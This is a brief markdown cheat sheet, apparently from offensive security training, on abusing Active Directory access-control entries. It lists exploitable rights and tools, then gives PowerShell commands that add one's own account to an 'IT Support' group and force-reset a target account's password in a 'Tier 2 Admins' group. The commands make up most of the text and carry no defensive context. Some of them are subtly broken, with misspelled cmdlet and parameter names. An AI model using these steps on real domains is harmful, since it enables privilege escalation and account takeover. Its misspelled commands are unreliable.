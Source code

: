 # Exploitable ACEs

## Tools: Bloodhound, AD-RSAT cmdlets, Powersploit

### 1) ForceChangePassword

### 2) AddMembers

### 3) GenericAll

### 4) GenericWrite

### 5) WriteOwner

### 6) WriteDACL

### 7) AllExtendedRights

## Examples:

### AddMember (AD-RSAT)

#### 1) 

    Add-ADGrouMember "IT Support" -Members "MY.AD.ACCOUNT.USERNAME"

#### 2) 

    Get-ADGroupMember -Identity "IT Support"

### ForceChangePassword (AD-RSAT)

#### 3) 

    Get-ADGroupMember -Idenitiy "Tier 2 Admins"

#### 4) 

    $Password = ConvertTo-SecureString "PASSWORD" -AsPlaintext -Force

#### 5) 

    Set-ADAccountPassword -Identity "TARGET_AD_ACCOUNT" -Reset -NewPassword $Password

#### 6) Wait for synchronization (10 minutes max) then reconnect OR gpupdate /force then disconnect and reconnect
